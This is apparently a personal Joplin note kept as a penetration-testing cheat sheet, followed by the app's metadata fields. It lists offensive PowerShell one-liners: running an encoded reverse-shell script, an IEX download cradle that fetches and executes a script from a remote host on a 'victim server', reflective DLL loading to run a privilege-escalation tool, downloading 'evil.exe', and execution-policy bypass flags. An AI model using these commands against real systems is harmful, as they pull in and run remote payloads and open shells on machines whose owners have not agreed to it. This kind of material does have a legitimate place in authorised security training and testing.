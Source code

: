 PowerShell

Running Encoded Powershell scripts

> powershell.exe -E (Get-Content '.\\encoded-rshell.ps1' -Raw)

Download the PowerShell script to run in the victim server directly (instead of downloading a file)

> "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"

Use a DLL and run it

> \[Reflection.Assembly\]::LoadFile("C:\\&lt;File&gt;")
> 
> \[Waston.Program\]::Main()

Download a file

> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/evil.exe', 'new-exploit.exe')

Add the execution bypass if required (-nop, -ExecutionPolicy Bypass -NoLogo)

id: 069c62b2fe97431686d1072c2f9241aa
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-19T10:01:33.444Z
updated_time: 2022-01-28T01:52:39.163Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1642586493444
user_created_time: 2022-01-19T10:01:33.444Z
user_updated_time: 2022-01-28T01:52:39.163Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1